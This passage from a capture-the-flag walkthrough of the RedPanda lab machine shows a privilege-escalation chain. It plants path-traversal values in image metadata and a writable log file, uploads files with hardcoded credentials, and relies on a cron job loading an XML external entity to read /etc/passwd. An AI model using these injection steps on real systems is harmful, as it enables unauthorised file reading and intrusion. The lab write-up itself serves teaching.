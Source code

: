     
    
    oxdf@hacky$ cp florida.jpg 0xdf.jpg 
    oxdf@hacky$ exiftool -Artist="../tmp/0xdf" 0xdf.jpg 
    Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - 0xdf.jpg
        1 image files updated
    oxdf@hacky$ exiftool 0xdf.jpg | grep Artist
    Artist                          : ../tmp/0xdf
    

#### Malicious Log

To inject into the logs, I could figure out how to make requests that get
logged and then modify my user-agent with `||` to give control over the uri
field, but that’s not necessary, as the log file is writable by the logs
group:

    
    
    woodenk@redpanda:/opt/panda_search$ ls -l redpanda.log 
    -rw-rw-r-- 1 root logs 1 Nov 22 11:48 redpanda.log
    

I’ll write a log that points to my image file:

    
    
    woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log
    

#### Execute

I’ll upload the two files I created into `/tmp` using `scp` with the creds
identified in the web source (though I could also just use a Python webserver
and `wget` just as easily):

    
    
    oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf.jpg woodenk@10.10.11.170:/tmp/
    oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
    

The next time the cron runs, it will parse that log, and the `uri` variable
will be `/../../../../../../tmp/0xdf.jpg`. That will be used to build a path
which is
`/opt/panda_search/src/main/resources/static/../../../../../../tmp/0xdf.jpg`,
which is effectively `/tmp/0xdf.jpg`.

The program will then read the artist metadata from that image as
`../tmp/0xdf` to build the path `/credits/../tmp/oxdf_creds.xml`.

It will load that XML file, and on doing so, the entity in it, reading in the
contents of `/etc/passwd`. Then it will increment the `views` field, and write
the results back to the same file.

After the next run, I’ll see the results in the file:

![image-20221122085057394](https://0xdfimages.gitlab.io/img/image-20221122085057394.png)

### Shell
